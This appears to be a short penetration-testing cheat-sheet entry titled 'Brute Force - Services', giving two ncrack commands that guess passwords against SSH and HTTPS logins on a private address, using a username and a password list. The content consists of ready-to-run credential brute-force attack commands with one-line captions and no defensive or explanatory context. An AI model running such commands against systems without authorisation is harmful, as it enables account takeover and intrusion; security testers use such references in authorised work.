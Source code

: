 # Brute Force - Services

```
ncrack -u user -P password_list.txt -p ssh 192.168.1.1
```

Run SSH brute force

```
ncrack --user admin -P passwords.txt https://192.168.1.1:443
```

Brute force HTTP(S) with password list and single user
